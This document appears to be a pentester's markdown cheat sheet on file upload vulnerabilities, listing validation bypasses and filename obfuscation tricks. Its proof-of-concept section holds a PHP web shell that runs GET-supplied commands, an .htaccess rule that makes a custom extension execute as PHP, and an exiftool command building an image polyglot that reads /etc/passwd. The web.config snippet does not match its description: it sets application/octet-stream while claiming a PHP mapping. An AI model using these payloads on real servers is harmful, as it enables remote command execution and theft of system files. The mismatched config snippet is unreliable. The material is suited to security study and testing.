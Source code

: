 # File Upload Vulnerabilities
Uploading malicious files to a server can cause major damage. The impact depends on two key factors:
- Which aspect of the file the website fails to validate properly, size, type, contents, name, etc
- What restrictions are imposed on the file once it has been successfully uploaded

If the file is stored for a short amount of time to parse and validate it, it might be possible to execute it in that short window ([race conditions](./race.md)). When the filename is pseudo-randomized, you can try brute forcing it. Upload large files to let the parsing take as long as possible.

When remote code execution is not reachable, file upload may still be exploitable. 
- Maybe it is possible to upload javascript files that execute client-side for stored [xss](./xss.md) attacks
- Or if the server parses XML-based files, it might be possible to exploit some [xxe](./xxe.md) injection
- Sometimes you can upload files with the `PUT` method, if it does not have the correct defenses. Test if `PUT` is allowed with the `OPTIONS` method

### Improper filetype validation
-> Upload a webshell to get (full) access to the server

- Sometimes the [`Content-Type`](https://beeceptor.com/docs/concepts/content-type/) header is implicitly trusted by the server
- Use polyglot files to get remote code execution, while still uploading valid (e.g.) image files [PoC](#polyglot)

### Improper filename validation
-> Overwriting critical files by upload files with the same name

- Sometimes also [path traversal](./path_traversal.md) to upload files to trusted internal directories

Ways of **obfuscating** filenames, file extensions, and file path traversal sequences:
- Multiple extensions `file.php.jpg`
- Trailing characters `file.php.`
- URL encoded `.` (%2e), `/` (%2f), and `\` (%5c). Or double encoded using %25 -> `%`
- Semicolons or null byte before extension `file.php;.jpg`, `file.php%00.jpg`
- Add extra file extension in the middle if it is stripped non-recursively `file.p.phphp`

### Improper size thresholds
-> DoS attack by uploading very big files

## Proof of Concepts

### Web Shell | PHP
```php
<?php echo system($_GET['command']); ?>
```

### Overriding Configurations
Now, the `.l33t` extension is mapped to the executable php mimetype. Filename: `web.config`.
```xml
<staticContent>
    <mimeMap fileExtension=".l33t" mimeType="application/octet-stream" />
</staticContent>
```
Or use this to make configuration changes on a per directory basis in Apache HTTP Server. Filename: `.htaccess`, Content-Type: `text/plain`.
```txt
AddType application/x-httpd-php .l33t
```

### Polyglot
Create a polyglot using `exiftool` in linux terminal.
```sh
exiftool -Comment="<?php echo 'START: ' . file_get_contents('/etc/passwd') . ' :END'; ?>" image.jpg -o polyglot.php
```

# Sources
- Main info (Portswigger): https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities